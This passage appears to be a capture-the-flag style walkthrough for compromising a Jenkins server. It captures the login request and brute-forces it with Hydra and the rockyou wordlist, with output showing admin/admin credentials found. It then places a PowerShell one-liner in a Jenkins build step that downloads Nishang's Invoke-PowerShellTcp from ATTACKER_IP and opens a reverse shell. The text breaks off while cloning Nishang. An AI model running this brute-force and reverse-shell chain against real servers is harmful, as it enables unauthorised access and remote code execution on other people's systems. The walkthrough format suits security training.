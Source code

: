 * Directory/Path to the Login Page = /j\_acegi\_security\_check.
  * Request header "Filename" attribute.

/j\_acegi\_security\_check

* Request Body for Username/Password = j\_username=^USER^\&j\_password=^PASS^\&from=%2F\&Submit=Sign+in
  * **Inspect Element** in browser.
  * **Network** tab of developer tools.
  * Attempt a login.
  * Right click on request > **Edit and Resend**.
  * **Request Body** contains entered username and password.
  * Grab entire request.

j\_username=12345\&j\_password=12345\&from=%2F\&Submit=Sign+in

* Replace entered username with \`^USER^ to tell Hydra to enter words from wordlist in this position of the request.
* Replace entered password with ^PASS^.
* Way to Identify Failed Attempts = Invalid username or password.
  * Attempt to login using incorrect credentials.
  * Presented with "Invalid username or password" text.
  * Add this to Hydra command.

hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt TARGET\_IP -s 8080 http-form-post "/j\_acegi\_security\_check:j\_username=^USER^\&j\_password=^PASS^:Invalid username or password"

* Hydra bruteforces login and returns credentials.

\[8080]\[http-post-form] host: TARGET\_IP login: Admin password: admin

\[8080]\[http-post-form] host: TARGET\_IP login: admin password: admin

1 of 1 target successfully completed, 2 valid passwords found

#### **Use feature of Jenkins server to get reverse shell.** <a href="#acclky61yhf7" id="acclky61yhf7"></a>

**1. Jenkins project Command field allows execution of commands on underlying system**

* **Job** > **Project** > **Configure**.
* **Build** section has text field where Windows commands are executed.

**2. Add PowerShell to exploitable field**

powershell iex (New-Object Net.WebClient).DownloadString('http://ATTACKER\_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER\_IP -Port 1234

* PowerShell script connects to standard netcat listening port when using "-Reverse" switch.
* **Save** project.

**3. Clone Nishang powershell scripts from GitHub**

mkdir tools

cd tools

git clone https://github.com/samratashok/nishang/
